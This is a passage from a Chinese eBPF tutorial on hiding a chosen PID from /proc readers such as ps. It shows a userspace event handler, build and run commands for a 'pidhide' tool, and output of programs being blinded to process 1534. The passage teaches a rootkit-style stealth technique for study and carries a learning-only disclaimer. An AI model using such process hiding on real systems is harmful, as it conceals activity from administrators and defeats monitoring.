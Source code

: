 `handle_event` 函数中，我们根据事件的内容打印了相应的消息。这个函数的参数包括一个上下文，事件的数据，以及数据的大小。我们首先将事件的数据转换为 `event` 结构体，然后根据 `success` 字段判断这个事件是否表示成功隐藏了一个进程，最后打

印相应的消息。

```c
static int handle_event(void *ctx, void *data, size_t data_sz)
{
    const struct event *e = data;
    if (e->success)
        printf("Hid PID from program %d (%s)\n", e->pid, e->comm);
    else
        printf("Failed to hide PID from program %d (%s)\n", e->pid, e->comm);
    return 0;
}
```

这段代码展示了如何在用户态使用 eBPF 程序来实现进程隐藏的功能。我们首先打开 eBPF 程序，然后设置我们想要隐藏的进程的 PID，再验证并加载 eBPF 程序，最后等待并处理由 eBPF 程序发送的事件。这个过程中，我们使用了 eBPF 提供的一些高级功能，如环形缓冲区和事件处理，这些功能使得我们能够在用户态方便地与内核态的 eBPF 程序进行交互。

完整源代码：<https://github.com/eunomia-bpf/bpf-developer-tutorial/tree/main/src/24-hide>

> 本文所示技术仅为概念验证，仅供学习使用，严禁用于不符合法律法规要求的场景。

## 编译运行，隐藏 PID

首先，我们需要编译 eBPF 程序：

```bash
make
```

然后，假设我们想要隐藏进程 ID 为 1534 的进程，可以运行如下命令：

```sh
sudo ./pidhide --pid-to-hide 1534
```

这条命令将使所有尝试读取 `/proc/` 目录的操作都无法看到 PID 为 1534 的进程。例如，我们可以选择一个进程进行隐藏：

```console
$ ps -aux | grep 1534
yunwei      1534  0.0  0.0 244540  6848 ?        Ssl  6月02   0:00 /usr/libexec/gvfs-mtp-volume-monitor
yunwei     32065  0.0  0.0  17712  2580 pts/1    S+   05:43   0:00 grep --color=auto 1534
```

此时通过 ps 命令可以看到进程 ID 为 1534 的进程。但是，如果我们运行 `sudo ./pidhide --pid-to-hide 1534`，再次运行 `ps -aux | grep 1534`，就会发现进程 ID 为 1534 的进程已经不见了。

```console
$ sudo ./pidhide --pid-to-hide 1534
Hiding PID 1534
Hid PID from program 31529 (ps)
Hid PID from program 31551 (ps)
Hid PID from program 31560 (ps)
Hid PID from program 31582 (ps)
Hid PID from program 31582 (ps)
Hid PID from program 31585 (bash)
Hid PID from program 31585 (bash)
Hid PID from program 31609 (bash)
Hid PID from program 31640 (ps)
Hid PID from program 31649 (ps)
```
